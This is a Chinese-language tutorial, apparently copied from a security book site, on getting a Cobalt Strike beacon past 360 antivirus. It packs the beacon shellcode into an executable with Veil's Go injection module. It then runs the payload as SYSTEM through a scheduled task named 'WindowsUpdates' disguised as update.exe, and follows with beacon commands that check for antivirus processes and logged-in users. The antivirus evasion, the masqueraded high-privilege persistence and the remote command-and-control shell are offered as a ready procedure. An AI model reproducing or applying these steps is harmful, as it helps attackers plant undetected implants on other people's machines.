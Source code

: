 # Cobalt Strike beacon 免杀上线 [ Veil ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/25.html](http://book.iwonder.run/Tools/Cobalt Strike/25.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,创建监听器,生成 Veil 格式的 shellcode [ 关于 Veil 相信很多朋友都已经比较熟悉了,此处不多做介绍,大家可以直接去 github 里搜下,然后按步骤装上即可 ]

![image](img/65bd214baa5a83283c29eb31f2c747e7.png)

> 实际生成的 Shellcode 内容如下

![image](img/6dc0a611e1fa3d32842a51322a1b2575.png)

> 紧接着,去启动 Veil [ 注: 此处的 Veil 是在我的另一台 kali 机器上 ], 选择 go shellcode 注入这个模块[ 之所以选 go,主要是因为它的免杀效果,相对于其它脚本稍好一点,顺便提醒一句,在安装 Veil 时最好先把系统挂上 vpn,防止某些包下不下来,导致整个安装过程出错,注意仔细观察安装过程,不然万一等装完,起不来都不知道是哪里的问题,非常简单,就不再多啰嗦了 ]

```
# ./Veil.py
Veil>: use 1
Veil/Evasion>: list
Veil/Evasion>: use 17 
```

![image](img/c372226bc9a3aabb2a9687a4f65e2164.png)

![image](img/62ccbf0057180c7f7120704256adf829.png)

> 上面的模块中不用做任何配置,全部保持默认,然后输入 "generate " ,此时选择"3 "[整篇文章最关键的地方也就在这里],自定义 shellcode,直接把我们之前用 CobaltStrike 生成好的那个 Veil shellcode 粘过来回车就行

```
[go/shellcode_inject/virtual>>]: generate 
```

![image](img/ac60eb5850baf808fbaf535db7ea2ed2.png)

> 之后,便会自动开始打包生成对应的 exe payload

![image](img/00d59bcb3411919bbe7f54c193e412ff.png)

> 此时,我们只需想办法把上面生成的 exe payload 丢到目标机器上,用系统计划任务直接弹回一个高权限的 beacon shell 即可

```
# schtasks /create /RL HIGHEST /F /ru "SYSTEM" /tn "WindowsUpdates" /tr "c:/Windows/Temp/update.exe" /sc DAILY /mo 1 /ST 00:15
# schtasks /run /tn "WindowsUpdates"
# schtasks /query | findstr "WindowsUpdates"
# schtasks /delete /F /tn "WindowsUpdates" 
```

![image](img/cf2363bb3a0f5d0c83fbe4392b0f12db.png)

> 最终,beacon shell 被正常弹回,如下

```
beacon> sleep 0
beacon> shell tasklist | findstr /c:"explorer.exe" /c:"360"
beacon> shell query user 
```

![image](img/3e97f8a6a33ea3a86fe580833d20371e.png)

